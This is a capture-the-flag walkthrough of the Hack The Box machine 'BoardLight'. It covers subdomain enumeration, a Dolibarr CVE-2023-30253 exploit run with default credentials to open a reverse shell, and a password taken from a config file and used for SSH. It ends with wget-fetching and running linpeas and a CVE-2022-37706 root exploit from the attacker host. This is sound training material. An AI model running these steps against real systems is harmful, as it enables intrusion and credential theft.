

# BoardLight
## Difficulty : Easy
## OS : Linux

### Enumeration:

I'll start with a simple nmap scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.11.62 --max-retries 1
```



I'll take a look at the web site.Looking at the soruce code we find out about a page that has not been linked yet.


I get "File not found". Let's search for subdomains.

```bash
gobuster vhost -u board.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --append-domain=true
```


Let's add both "board.htb" and "crm.board.htb" to our "/etc/hosts" file and check the subdomain.


We got a login page. Searching for the version we find this https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py .
We just need some credentials now. 

Using default credentials (admin:admin) gets me access to this:


### Foothold:

I'll use the script and start a listening port.

```bash
rlwrap nc -lnvp 6666
python3 script.py http://crm.board.htb admin admin 10.10.14.54  6666
```


While looking at Dolibarr documentation I found a file called "conf/conf.php". I'll first see what I can find on the file and then I'll search for the user flag.

```bash
cd ~/html/crm.board.htb/htdocs/conf
cat conf.php
```


We found a password. Now let's search for users.

```bash
cd /home
ls
```


I'll login via ssh using the found password and et the user flag.

```bash
ssh larissa@board.htb
serverfun2$2023!!
ls
cat user.txt
```
### I got the user flag!

### Privelage Escalation

I'll get linpeas on the target machine.

Host:
```bash
python3 -m http.server -b 10.10.14.54 80
```
Target:
```bash
wget http://10.10.14.54:80/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas found an interesting folder "/usr/lib/x86_64-linux-gnu/enlightenment/".


Searching enlightenment on web I came across this https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh .

I'll get it on the target, run it and get the root flag.

Host:
```bash
python3 -m http.server -b 10.10.14.54 80
```

Target:
```bash
wget http://10.10.14.54:80/eulogy.sh
chmod +x eulogy.sh
./eulogy.sh
```


It worked.

### I got the root flag!